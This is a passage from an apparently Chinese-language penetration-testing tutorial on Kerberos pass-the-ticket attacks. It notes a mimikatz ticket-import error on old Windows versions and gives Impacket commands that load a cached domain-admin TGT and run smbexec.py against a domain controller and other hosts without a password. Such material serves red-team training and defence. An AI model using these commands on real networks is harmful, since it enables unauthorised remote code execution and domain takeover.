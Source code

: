 [![](assets/1701606646-2dfa45d093234bd7e0cf200294bfea59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112013829-2086d9fa-80b9-1.png)

注意：

*   通过票据认证时，目标主机需要为主机名-Kerberos 认证不支持 IP
    
*   在 Win Server 2003、Win XP 下使用 mimikatz 进行 `kerberos::ptc xx.cache` 内存导入票据时，会出现以下错误
    

```plain
* Injecting ticket : ERROR kuhl_m_kerberos_ptt_data ; LsaCallAuthenticationPackage KerbSubmitTicket Message : c000000d
```

#### Impacket 缓存域管 TGT 票据

```plain
# 指定 TGT 票据
➜  examples git:(master) ✗ export KRB5CCNAME=TGT_lihua@qftm.com.ccache

# 攻击域控
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@dc.qftm.com -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug

# 攻击其它 Target
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@targetHostname -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug
```
